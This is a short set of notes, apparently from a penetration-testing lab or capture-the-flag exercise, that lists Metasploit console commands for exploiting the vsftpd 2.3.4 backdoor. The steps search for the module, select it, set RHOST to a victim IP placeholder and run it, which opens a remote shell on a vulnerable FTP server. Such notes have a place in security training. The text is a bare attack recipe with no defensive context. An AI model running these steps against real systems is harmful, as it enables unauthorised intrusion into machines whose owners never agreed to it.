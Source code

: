 # Metasploit
```bash
search vsftpd 2.3.4
```

```bash
use 0
```

```bash
set RHOST <"IP VICTIMA">
```

```bash
run
```